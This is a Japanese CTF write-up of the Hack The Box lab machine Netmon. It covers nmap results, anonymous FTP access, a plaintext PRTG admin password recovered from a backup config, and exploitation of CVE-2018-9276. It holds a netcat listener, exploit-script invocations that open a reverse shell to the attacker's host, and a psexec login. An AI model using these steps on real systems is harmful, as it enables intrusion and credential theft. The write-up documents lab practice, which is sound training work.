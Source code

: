 # Netmon
https://app.hackthebox.com/machines/Netmon
Guided mode でプレイ。

## nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -T4 -A -v 10.10.10.152                               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-28 03:06 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 03:06
Completed NSE at 03:06, 0.00s elapsed
Initiating NSE at 03:06
Completed NSE at 03:06, 0.00s elapsed
Initiating NSE at 03:06
Completed NSE at 03:06, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 03:06
Completed Parallel DNS resolution of 1 host. at 03:06, 0.02s elapsed
Initiating Connect Scan at 03:06
Scanning 10.10.10.152 [1000 ports]
Discovered open port 21/tcp on 10.10.10.152
Discovered open port 80/tcp on 10.10.10.152
Discovered open port 445/tcp on 10.10.10.152
Discovered open port 135/tcp on 10.10.10.152
Discovered open port 139/tcp on 10.10.10.152
Increasing send delay for 10.10.10.152 from 0 to 5 due to max_successful_tryno increase to 5
Completed Connect Scan at 03:07, 23.92s elapsed (1000 total ports)
Initiating Service scan at 03:07
Scanning 5 services on 10.10.10.152
Completed Service scan at 03:07, 6.76s elapsed (5 services on 1 host)
NSE: Script scanning 10.10.10.152.
Initiating NSE at 03:07
NSE: [ftp-bounce] PORT response: 501 Server cannot accept argument.
Completed NSE at 03:07, 9.07s elapsed
Initiating NSE at 03:07
Completed NSE at 03:07, 1.30s elapsed
Initiating NSE at 03:07
Completed NSE at 03:07, 0.00s elapsed
Nmap scan report for 10.10.10.152
Host is up (0.18s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 01-26-25  01:49PM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp  open     msrpc        Microsoft Windows RPC
139/tcp  open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
8084/tcp filtered websnp
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -16m14s, deviation: 0s, median: -16m14s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-01-28T07:51:06
|_  start_date: 2025-01-26T18:29:26
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

NSE: Script Post-scanning.
Initiating NSE at 03:07
Completed NSE at 03:07, 0.00s elapsed
Initiating NSE at 03:07![alt text](image.png)
Completed NSE at 03:07, 0.00s elapsed
Initiating NSE at 03:07
Completed NSE at 03:07, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.42 seconds
```
どうやら ポート 80 でPaessler PRTG bandwidth monitorなるものが動いているらしい。
ブラウザでアクセスすると、以下のようなページが現れた。
![http image](./http.png)
## port80 password cracking
https://kb.paessler.com/en/topic/433-what-s-the-login-name-and-password-for-the-prtg-web-interface-how-do-i-change-it
によると、デフォルトでは
- Login Name: prtgadmin
- Password: prtgadmin
これをためしてみたがダメだった。

## port21 FTP Anonymous login
ftp-anon: Anonymous FTP login allowed (FTP code 230)
と書いてあるので、FTPで匿名ログインができるようだ。どのようなファイルが見られるか試してみる。
```
└─$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> get Users/Public/Desktop/user.txt ./user.txt
local: ./user.txt remote: Users/Public/Desktop/user.txt
229 Entering Extended Passive Mode (|||64329|)
125 Data connection already open; Transfer starting.
100% |****************************************************************|    34        0.18 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (0.17 KiB/s)
ftp> !cat user.txt
<<<user flag>>>
ftp> 
```

## root をとる
なんか PRTG Network Monitorあやしい。
Progam Files のなかとか ftpでいろいろしらべてみる。
https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/
これとかあやしいけどな
PRTG Configuration.dat はどこですか
https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data
Microsoft Windows Server 2008 R2 なので %programdata%\Paessler\PRTG Network Monitor にあるはず
ftp://10.10.10.152/ProgramData/Paessler/PRTG Network Monitor/
にあった。（隠しファイルなのでlsとかだと永遠に出てこない）
https://github.com/yobabyte/decryptocollection
とかを使うまでもなく、PRTG Configuration.old.bak に生パスワードがあった。これはたぶんPRTG 17以下だとそういう形式の設定ファイルになっていたことが問題。
prtgadmin, PrTg@dmin2018らしい。
この通りに入れてもウェブサイトにはログインできない。
ここでちょっとおてあげし、他人のWriteupを見る
PrTg@dmin2019らしい。（なるほどこういう推測方法があるんだなあ）
~~ちなみになぜかこれを使ってもログインできませんでした。バグかな？~~ サーバーのリスタートで解決
それとは関係なく、ウェブサイトの一番下からPRTG　18.1.37.13946　を使っていることがわかる。
https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/http/prtg_authenticated_rce.md
show options

VPNをTCPにしないとだめかも？
なんかだめだなあ
https://github.com/mats-codes/CVE-2018-9276/tree/master
でもなんかできない。
```
nc -nvlp 4444
python3 CVE-2018-9276_py3.py -i 10.10.10.152 -p 80 --lhost 10.10.14.17 --lport 4444 --user prtgadmin --password PrTg@dmin2019
```
https://github.com/A1vinSmith/CVE-2018-9276
```
python ./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.17 --lport 445 --user prtgadmin --password PrTg@dmin2019

```
これもだめだ
全部だめじゃん
結局いかのとおりにやってできた。

https://hipotermia.pw/htb/netmon
https://www.exploit-db.com/exploits/46527
```
impacket-psexec  pentest@10.10.10.152
```

一番詳しそうなwriteup
https://blog.shivamsaraswat.com/netmon-htb/




